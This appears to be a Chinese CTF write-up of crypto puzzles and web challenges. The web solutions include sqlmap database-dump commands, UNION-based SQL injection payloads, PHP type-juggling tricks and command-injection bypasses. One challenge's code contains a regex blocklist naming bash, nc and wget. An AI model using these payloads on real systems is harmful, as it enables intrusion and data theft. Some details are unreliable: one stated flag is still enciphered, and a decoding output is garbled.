TmV3IGNoYWxsZW5nZSEgQ2FuIHlvdSBmaWd1cmUgb3V0IHdoYXQncyBnb2luZyBvbiBoZXJlPyBJdCBsb29rcyBsaWtlIHRoZSBsZXR0ZXJzIGFyZSBzaGlmdGVkIGJ5IHNvbWUgY29uc3RhbnQuIChoaW50OiB5b3UgbWlnaHQgd2FudCB0byBzdGFydCBsb29raW5nIHVwIFJvbWFuIHBlb3BsZSkuCmt2YnNxcmQsIGl5ZSdibyBrdnd5Y2QgZHJvYm8hIFh5ZyBweWIgZHJvIHBzeGt2IChreG4gd2tpbG8gZHJvIHJrYm5vY2QuLi4pIHprYmQ6IGsgY2VsY2RzZGVkc3l4IG1zenJvYi4gU3ggZHJvIHB5dnZ5Z3N4cSBkb2hkLCBTJ2ZvIGRrdW94IHdpIHdvY2NrcW8ga3huIGJvenZrbW9uIG9mb2JpIGt2enJrbG9kc20gbXJrYmttZG9iIGdzZHIgayBteWJib2N6eXhub3htbyBkeSBrIG5zcHBvYm94ZCBtcmtia21kb2IgLSB1eHlneCBrYyBrIGNlbGNkc2RlZHN5eCBtc3pyb2IuIE1reCBpeWUgcHN4biBkcm8gcHN4a3YgcHZrcT8gcnN4ZDogR28gdXh5ZyBkcmtkIGRybyBwdmtxIHNjIHF5c3hxIGR5IGxvIHlwIGRybyBweWJ3a2QgZWRwdmtxey4uLn0gLSBncnNtciB3b2t4YyBkcmtkIHNwIGl5ZSBjb28gZHJrZCB6a2Rkb2J4LCBpeWUgdXh5ZyBncmtkIGRybyBteWJib2N6eXhub3htb2MgcHliIGUsIGQsIHAsIHYgaywga3huIHEga2JvLiBJeWUgbWt4IHpieWxrbHZpIGd5YnUgeWVkIGRybyBib3drc3hzeHEgbXJrYmttZG9iYyBsaSBib3p2a21zeHEgZHJvdyBreG4gc3hwb2Jic3hxIG15d3d5eCBneWJuYyBzeCBkcm8gT3hxdnNjciB2a3hxZWtxby4gS3h5ZHJvYiBxYm9rZCB3b2RyeW4gc2MgZHkgZWNvIHBib2Flb3htaSBreGt2aWNzYzogZ28gdXh5ZyBkcmtkICdvJyBjcnlnYyBleiB3eWNkIHlwZG94IHN4IGRybyBrdnpya2xvZCwgY3kgZHJrZCdjIHpieWxrbHZpIGRybyB3eWNkIG15d3d5eCBtcmtia21kb2Igc3ggZHJvIGRvaGQsIHB5dnZ5Z29uIGxpICdkJywga3huIGN5IHl4LiBZeG1vIGl5ZSB1eHlnIGsgcG9nIG1ya2JrbWRvYmMsIGl5ZSBta3ggc3hwb2IgZHJvIGJvY2QgeXAgZHJvIGd5Ym5jIGxrY29uIHl4IG15d3d5eCBneWJuYyBkcmtkIGNyeWcgZXogc3ggZHJvIE94cXZzY3Igdmt4cWVrcW8uCnJnaG54c2RmeXNkdGdodSEgcWdmIGlzYWsgY3RodHVpa2UgZGlrIHprbnRoaGt4IHJ4cWxkZ254c2xpcSByaXN5eWtobmsuIGlreGsgdHUgcyBjeXNuIGNneCBzeXkgcWdmeCBpc3hlIGtjY2d4ZHU6IGZkY3lzbntoMHZfZGk0ZHVfdmk0ZF90X3I0eXlfcnhxbGQwfS4gcWdmIHZ0eXkgY3RoZSBkaXNkIHMgeWdkIGdjIHJ4cWxkZ254c2xpcSB0dSBwZnVkIHpmdHlldGhuIGdjYyBkaXR1IHVneGQgZ2MgenN1dHIgYmhndnlrZW5rLCBzaGUgdGQgeGtzeXlxIHR1IGhnZCB1ZyB6c2Ugc2Nka3ggc3l5LiBpZ2xrIHFnZiBraHBncWtlIGRpayByaXN5eWtobmsh
```
下面的是base64，解码：
```
New challenge! Can you figure out what's going on here? It looks like the letters are shifted by some constant. (hint: you might want to start looking up Roman people).
kvbsqrd, iye'bo kvwycd drobo! Xyg pyb dro psxkv (kxn wkilo dro rkbnocd...) zkbd: k celcdsdedsyx mszrob. Sx dro pyvvygsxq dohd, S'fo dkuox wi wocckqo kxn bozvkmon ofobi kvzrklodsm mrkbkmdob gsdr k mybboczyxnoxmo dy k nsppoboxd mrkbkmdob - uxygx kc k celcdsdedsyx mszrob. Mkx iye psxn dro psxkv pvkq? rsxd: Go uxyg drkd dro pvkq sc qysxq dy lo yp dro pybwkd edpvkq{...} - grsmr wokxc drkd sp iye coo drkd zkddobx, iye uxyg grkd dro mybboczyxnoxmoc pyb e, d, p, v k, kxn q kbo. Iye mkx zbylklvi gybu yed dro bowksxsxq mrkbkmdobc li bozvkmsxq drow kxn sxpobbsxq mywwyx gybnc sx dro Oxqvscr vkxqekqo. Kxydrob qbokd wodryn sc dy eco pboaeoxmi kxkvicsc: go uxyg drkd 'o' crygc ez wycd ypdox sx dro kvzrklod, cy drkd'c zbylklvi dro wycd mywwyx mrkbkmdob sx dro dohd, pyvvygon li 'd', kxn cy yx. Yxmo iye uxyg k pog mrkbkmdobc, iye mkx sxpob dro bocd yp dro gybnc lkcon yx mywwyx gybnc drkd cryg ez sx dro Oxqvscr vkxqekqo.
rghnxsdfysdtghu! qgf isak cthtuike dik zknthhkx rxqldgnxsliq risyykhnk. ikxk tu s cysn cgx syy qgfx isxe kccgxdu: fdcysn{h0v_di4du_vi4d_t_r4yy_rxqld0}. qgf vtyy cthe disd s ygd gc rxqldgnxsliq tu pfud zftyethn gcc ditu ugxd gc zsutr bhgvykenk, she td xksyyq tu hgd ug zse scdkx syy. iglk qgf khpgqke dik risyykhnk!
```
词频分析：
```
alright, you're almost there! Now for the final (and maybe the hardest...) part: a substitution cipher. In the following tezt, I've taken my message and replaced every alphabetic character with a correspondence to a different character - known as a substitution cipher. Can you find the final flag? hint: We know that the flag is going to be of the format utflag{...} - which means that if you see that pattern, you know what the correspondences for u, t, f, l a, and g are. You can probably work out the remaining characters by replacing them and inferring common words in the English language. Another great method is to use frequency analysis: we know that 'e' shows up most often in the alphabet, so that's probably the most common character in the tezt, followed by 't', and so on. Once you know a few characters, you can infer the rest of the words based on common words that show up in the English language. hwzdnitvoitjwzk! gwv yiqa sjzjkyau tya padjzzan hngbtwdnibyg hyiooazda. yana jk i soid swn ioo gwvn yinu asswntk: vtsoid{z0l_ty4tk_ly4t_j_h4oo_hngbt0}. gwv ljoo sjzu tyit i owt ws hngbtwdnibyg jk fvkt pvjoujzd wss tyjk kwnt ws pikjh rzwloauda, izu jt naioog jk zwt kw piu istan ioo. ywba gwv azfwgau tya hyiooazda!
```
继续词频分析：
```
	congratulations !YOU have finished the beginner cryptography challenge。Here is A flwag FOR all YOUR hard efforts: utflag{n0w_th4ts_wh4t_i_c4ll_crypt0}。YOU wid - find that A oi - totographs JUST building OFF this SORT oi - basc - knowldge, no - ot soc - baddge, no - ot so - baddge。
```
找到utflag{n0w_th4ts_wh4t_i_c4ll_crypt0}把开头替换为flag
flag{z0l_ty4tk_ly4t_j_h4oo_hngbt0}

## 16、小红的回复
打开题目：
```
👝👫👣👥👖👘👦👣👴👞👛👠👬👲👖👢👖👠👜
```
应该是Emoji表情符号编码/解码[传送门](http://www.atoolbox.net/Tool.php?Id=937)

解出
```
ftln_aol}gdiu{_k_ie
```
栅栏解码：

得到flag{i_dont_like_u}

## 17、factor
题目：
```
n=1598920466055691386937785458544854576323
c=149352737193480116891727694968305748507
e = 65537
```
factor在线分解n
```
p= 16293328305807526387
q= 98133446773166585329
```
直接套脚本：
```py
import libnum
n=1598920466055691386937785458544854576323
c=149352737193480116891727694968305748507
e = 65537


p= 16293328305807526387
q= 98133446773166585329

n=p*q
phi_n=(p-1)*(q-1)

#求逆元
d=libnum.invmod(e,phi_n)

m=pow(c,d,n)
print(m)
```
结果就是flag{864836190675}

## 18、Alice's dream rabbit
题目：
```
U2FsdGVkX19ixL7s5HryOhyL5oSScYGNVBVWl+sUMYQwTRniXreqeSp/iTHtkcxt
qicNL4xpHc5X34Daat7ixqkZMpU4JV9USOKKTAw9HJfGnoDzFF/JY0gzJpxgmW1X
4nXktQ4J7OM14EMcTrhPDIOfG2VDJr4yViWc/vNS8np1IFeIRXMoWGAJHuI8IOVG
tXi2JX6hTseYkJc2LGHJkLQ0WDW67RyhPC3vOwmJHOs/wMefWCaYteoQYOCReltm
FYuuibegOvFSUl1f0Tu7488mBHNjTrDSC76HjgxJJ6h9P36mLucQUBiFMyjLe0k1
+TTb39iMaGCuPiDb0UoAcAZPolz7RCeXqZOdzcJsPIFK/tcFLGeOPJTfFhJiwga6
cENO7pqeIB1qsRqEjyO4m4wgkhugdcs10CCevOJxNiQaWtv/FIOw9oCi5Q0VP+C9
qXZbuQ==
```
根据题目提示用rabbit解密，得到
```
公正公正和谐和谐平等诚信平等法治和谐公正友善公正公正诚信文明法治自由和谐和谐公正民主公正和谐公正友善敬业自由和谐公正法治和谐富强平等诚信平等文明民主法治友善平等公正诚信和谐法治自由法治诚信和谐平等法治公正平等法治敬业
```
社会主义核心价值观解密
```
f3_sllt3acoCg0_!{mt}Wey
```
栅栏解密得到flag
flag{W3lc0me_to_tys3C!}

## 19、md5太残暴了
应该是md5爆破
题目：
```
小明养成了定期修改密码的好习惯，同时，他还是一个CTF爱好者。有一天，他突发奇想，用flag格式来设置密码，为了防止忘记密码，他还把密码进行了md5加密。为了避免被其他人看到全部密码，他还特意修改了其中部分字符为#。你能猜出他的密码吗？
plaintext = flag{#00#_P4ssw0rd_N3v3r_F0rg3t_63####}
md5 = ac7f4d52c3924925aa9c8a7a1f522451
PS: 第一个#是大写字母，第二个#是小写字母，其他是数字。
```
定长md5爆破
脚本：
```
import string
import hashlib
a='flag{#00#_P4ssw0rd_N3v3r_F0rg3t_63####}'
b='ac7f4d52c3924925aa9c8a7a1f522451'
dic1=string.ascii_uppercase 
dic2=string.ascii_lowercase
dic3=string.digits
for i1 in dic1:
	for i2 in dic2:
		for i3 in range(1000,9999):
			bb='flag{'+i1+'00'+i2+'_P4ssw0rd_N3v3r_F0rg3t_63'+str(i3)+'}'
			aa=hashlib.md5(bb.encode('utf-8'))
			bbb=aa.hexdigest()
			if bbb==b:
				print (bb)
```
得到flag{G00d_P4ssw0rd_N3v3r_F0rg3t_638291}
# WEB
## 1、XFF
进入题目，查看网页源码，在最下方注释处发现：
```
M2QyMzc3MTJhODAyMmI2MC5odG1s
```
base64解出 3d237712a8022b60.html
访问又指向 1895937f1b9ba705.php 继续访问
提示 “请从本地127.0.0.1访问！”，结合题目xff，应该是添加 X-Forwarded-For: 127.0.0.1 字段

flag{2a887fc3-1da7-7230-8812-54ee325cb881}

XFF 的内容由「英文逗号 + 空格」隔开的多个部分组成，最开始的是离服务端最远的设备 IP，然后是每一级代理设备的 IP。

如果一个 HTTP 请求到达服务器之前，经过了三个代理 Proxy1、Proxy2、Proxy3，IP 分别为 IP1、IP2、IP3，用户真实 IP 为 IP0，那么按照 XFF 标准，服务端最终会收到以下信息：
```
X-Forwarded-For: IP0, IP1, IP2
```
Proxy3 直连服务器，它会给 XFF 追加 IP2，表示它是在帮 Proxy2 转发请求。列表中并没有 IP3，IP3 可以在服务端通过 Remote Address 字段获得。我们知道 HTTP 连接基于 TCP 连接，HTTP 协议中没有 IP 的概念，Remote Address 来自 TCP 连接，表示与服务端建立 TCP 连接的设备 IP，在这个例子里就是 IP3。

Remote Address 无法伪造，因为建立 TCP 连接需要三次握手，如果伪造了源 IP，无法建立 TCP 连接，更不会有后面的 HTTP 请求。不同语言获取 Remote Address 的方式不一样，例如 php 是 $_SERVER["REMOTE_ADDR"]，Node.js 是 req.connection.remoteAddress，但原理都一样。
## 2、bf
题目:


题目提示是爆破，用户名固定admin，上bp抓包爆它

发现密码被base64编码了，所以除了选择sniper攻击模式，选择字典，还需要对载荷进行处理，选择base64编码后，再攻击


顺利那道flag

flag{37e53c7d-1400-72ef-57e0-4339e44739ab}
## 3、bilnd
题目提示盲注，先用先用burpsuite抓一下post包，但后保存为111.txt文件
然后在命令行 输入：
sqlmap -r xxxxx.txt(post包文件路径)  --batch ......

```
sqlmap -r C:\Users\Administrator\Desktop\111.txt --batch  --dbs //爆库

sqlmap -r C:\Users\Administrator\Desktop\111.txt --batch  -D ctf --dump  //指定ctf库拖库
```

得到账号：admin 密码： gtfly2333
输入得到flag

flag{20617aa9-d296-180f-2382-02529386d777}
## 4、仔细观察
直接看网页源码
```
ZmxhZ3s1YmU3NDYyYy1kNDI4LWFkNjEtMzFjMS0xYzg3YzUzZDQ4NTJ9Cg==
```
base64解之
flag{5be7462c-d428-ad61-31c1-1c87c53d4852}
## 5、bdsql
这个直接sqlmap一把梭就出来了

但是还要手注一下：
```
0'union select 1,2,3,4#  //注入点

0'union select 1,2,(select group_concat(schema_name) from 
information_schema.schemata),4# //暴库

0'union select 1,2,(select group_concat(table_name) from 
information_schema.tables where table_schema='sql_test'),4#   //爆表

0'union select 1,2,(select group_concat(column_name) from 
information_schema.columns where table_name='flag' and 
table_schema='sql_test'),4#   //爆字段

0'union select 1,2,(select group_concat(flag) from sql_test.flag),4#   //报数据
```


## 6、time
题目提示：

应该是ua时间盲注，打开网页：

猜测http://39.165.214.6:50984/login.php
打开确实是：
使用sqlmap注入
### （1）第一种方法
先使用bp把包抓下来，然后保存为header.txt
注意要把User-Agent字段改为*
```
POST /login.php HTTP/1.1
Host: 39.165.214.6:50984
Content-Length: 28
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://39.165.214.6:50984
Content-Type: application/x-www-form-urlencoded
User-Agent:  *
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://39.165.214.6:50571/login.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=40b67e50ca859ae3e625fee660628463
Connection: close

username=1111&password=22222
```
进入sqlmap注入
```
sqlmap -r C:\Users\Administrator\Desktop\header.txt --dbs --batch --flush-session
```
爆出dbs，然后脱裤
```
sqlmap -r C:\Users\Administrator\Desktop\header.txt --batch -D sqli --dump
```

###  （2）第二种方法：
获取数据库名
```
python sqlmap.py -u http://193.168.6.8:50000/login.php --level 3 --dbs
```
获取表名
```
python sqlmap.py -u http://193.168.6.8:50000/login.php --level 3 -D sqli --
tables
```
获取字段：
```
python sqlmap.py -u http://193.168.6.8:50000/login.php --level 3 -D sqli -T
user_agents --columns
```
获取字段值：
```
python sqlmap.py -u http://193.168.6.8:50000/login.php --level 3 -D sqli -T
user_agents --columns -C user_agent --dump
```
flag{82c3c4c7c43a9c163e515a5796604c35}


这个题里面的重点是不知道sqlmap的这个命令
```
--flush-session   //清除缓存
```

## 7、ezphp
打开网页：
```php
no no no! <?php
error_reporting(0);
include("flag.php");
highlight_file(__FILE__);
if (isset($_GET['username']) and isset($_GET['password'])) {
if ($_GET['username'] == $_GET['password'])
print '用户名与密码不能相同';
else if (md5($_GET['username']) === md5($_GET['password']))
die('Flag: '.$flag);
else
print '密码错误';
}
```
get请求，对username和password先弱类型比较，然后强类型比较
payload：
```
http://39.165.214.6:50067/?username[]=1&password[]=2
```
 flag{bfb920f8-e654-ecb3-177e-e13021d63d09}
## 8、referer
题目提示：

先bp抓包，添加：
```
X-Forwarded-For: 127.0.0.1
```
发送还不行，按提示再添加：
```
referer:http://localhost
```

Flag: flag{0df12d92-6ba1-c103-2434-700cbcfbe51c}
## 9、post
题目代码：
```php
<?php
error_reporting(0);
include 'fl4g.php';

if($_REQUEST['mode']!="begin"){
    show_source(__FILE__);
    die("PHP Games!");
}else{
    $a=$_GET['a'];
    $b=$_GET['b'];
    if($a==$b){
        die("wrong way");
    }else{
        if(md5($a)!=sha1($b)){
            die("need a little magic");
        }else{
            if($_POST['token']){
                $token = unserialize($_POST['token']);
                if($token['user']=="user"&&$token['pass']=="pass"){
                        echo "this is your flag ".$fl4g;
                }else{
                    die("Not a valid token");
                }
            }else{
                die("give me the token");
            }
        }
    }
}
?> PHP Games!
```
有一个REQUEST参数mode，得等于begin
进入下一步比较两个get参数a和b，要求a和b不能弱类型相等，但需要强类型相等，符合条件后进入下一步
要求post传参token，先进行反序列化，然后再判断其中是否有user和pass，并且token['user']=="user"，token['pass']=="pass"

解题：
先构造序列化的token
```php
<?php
$arr = array('user'=>'user','pass'=>'pass');
echo serialize($arr);
?>
```
```
标准输出：a:2:{s:4:"user";s:4:"user";s:4:"pass";s:4:"pass";}
```
hackerbar输入payload
```
加载网址：http://39.165.214.6:50507/?a=QLTHNDT&b=aaK1STfY&mode=begin

post数据为：token=a:2:{s:4:"user";s:4:"user";s:4:"pass";s:4:"pass";}
```

flag{8d5dc036-d046-febc-6c0d-3847b0788abe}
## 10、头等舱
在headers中找到flag

flag{505fc4b0-7d89-460a-3dd7-9a0b9f1737cd}

## 11、finalrce
打开题目，直接代码审计：
```
<?php
highlight_file(__FILE__);
if(isset($_GET['url']))
{
    $url=$_GET['url'];
    if(preg_match('/bash|nc|wget|ping|ls|cat|more|less|phpinfo|base64|echo|php|python|mv|cp|la|\-|\*|\"|\>|\<|\%|\$/i',$url))
    {
        echo "Sorry,you can't use this.";
    }
    else
    {
        echo "Can you see anything?";
        exec($url);
    }
}
```
正则匹配掉了大部分，基本上普通方法是不能用了，自增RCE也是用不了，但是我们可以看出他没有过滤~和（），所以我们可以取反或者异或来获取flag，先构造payload试试：
```
?url=(~%8C%86%8C%8B%9A%92)(~%93%8C%DF%D0)  //url=system(ls /);
```
**先学习几个知识点：
1、linux里面的"\"是转义字符，他加载字母前面不对字母进行转义；
2、linux中的tee命令：tee的功能是从标准输入读取，再写入标准输出和文件。
比如：**
```
cat /flag.txt | tee 1.txt
```
**意思是读取flag.txt文件内容，在转存至1.txt文件中。**

打开hackerbar，尝试
```
?url=l\s / | tee 1.txt
```

查询到ffffffllllllagg，由于正则禁用了cat和la，所以加入转义的"\"，构造payload读取
```
?url=ca\t /ffffffllllll\agg| tee 1.txt
```

flag{1893499d-0492-3596-5f09-5df07b05b546}

## 12、babyrce
打开网页，看到代码：
```php
<?php
error_reporting(0);
header("Content-Type:text/html;charset=utf-8");
highlight_file(__FILE__);
if($_COOKIE['admin']==1) 
{
    include "next.php";
}
else
    echo "小饼干最好吃啦！";
?>  小饼干最好吃啦！
```
根据代码意思，bp抓包，增加cookie:admin=1字段。

提示页面为rasalghul.php
访问提示新的代码：
```php
<?php
error_reporting(0);
highlight_file(__FILE__);
error_reporting(0);
if (isset($_GET['url'])) {
  $ip=$_GET['url'];
  if(preg_match("/ /", $ip)){
      die('nonono');
  }
  $a = shell_exec($ip);
  echo $a;
}
?>
```
禁止了/和空格，可以使用 $IFS 代替空格
构造payload
```
http://39.165.214.6:50816/rasalghul.php/?url=ls$IFS/
```

找到了flag文件，构造payload访问
```
http://39.165.214.6:50816/rasalghul.php/?url=cat$IFS/f1aggg
```

flag{8bfe1a0e-7510-35f9-d025-41d339c98949}

## 13、脚本编写

打开网页发现2s之后刷新数字都会变化，也就是必须要在2s内算出答案，并post提交，只能写脚本了
```
import requests #引入request库
import re 		#引入re库
 
url = '''http://39.165.214.6:50492/'''
s = requests.session()  #用session会话保持表达式
retuen = s.get(url)
 
equation = re.search(r'(\d+[+\-*])+(\d+)',retuen.text).group()
result = eval(equation)	#eval()函数用来执行一个字符串表达式,并返回表达式的值。
 
key = {'value':result}#创建一个字典类型用于传参
flag = s.post(url,data=key)#用post方法传上去
 
print(flag.text)
```

flag{c3f9f43d-50b7-84c1-ce9e-3b2b0c4ddc22}

## 14、b p
根据提示一步一步构造请求
```
GET / HTTP/1.1
Host: 39.165.214.6:50976
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: secdriver
X-Forwarded-For: 127.0.0.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://secdriver.com
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,de-De
Cookie: PHPSESSID=7rikjis8acjgtjltsbg7t6c7s4; admin=1
Connection: close
```

得到flag{f6cb474f-c59a-5289-a524-b9d74db5a5f1}

## 15、ez_ez
打开网页
```php
<?php
error_reporting(0);
if (isset($_GET['file'])) {
    if ( substr($_GET["file"], 0, 3) === "php" ) {
        echo "Nice!!!";
        include($_GET["file"]);
    } 

    else {
        echo "Hacker!!";
    }
}else {
    highlight_file(__FILE__);
}
//flag.php
```
应该是考伪协议的
直接输入/flag竟然得到flag

flag{cc991ae3-14c1-7c04-41c9-1b731744753f}

## 16、神奇的md5
进入网页
```php
<?php
error_reporting(0);
include("flag.php");
highlight_file(__FILE__);
if (isset($_GET['username']) and isset($_GET['password'])) {
    if ($_GET['username'] == $_GET['password'])
        print 'no no no! ';
    else if (md5($_GET['username']) == md5($_GET['password'])){
        if(md5($_GET['username']) == null)
            die('die');
        die('Flag: '.$flag);
    }
    else
        print 'wrong pass';
}
```
通过代码审计得知，要get传入username和password，要求username和password弱类型不相等，但md5后两值弱类型相等，同时username不能为空
```
240610708的md5值：0e462097431906509019562988736854
QLTHNDT的md5值:0e405967825401955372549139051580
```
构造payload
```
http://39.165.214.6:50134/?username=240610708&password=QLTHNDT
```
得到flag

flag{29b7a0be-0ee9-c18f-2af8-0a2266a6e49d}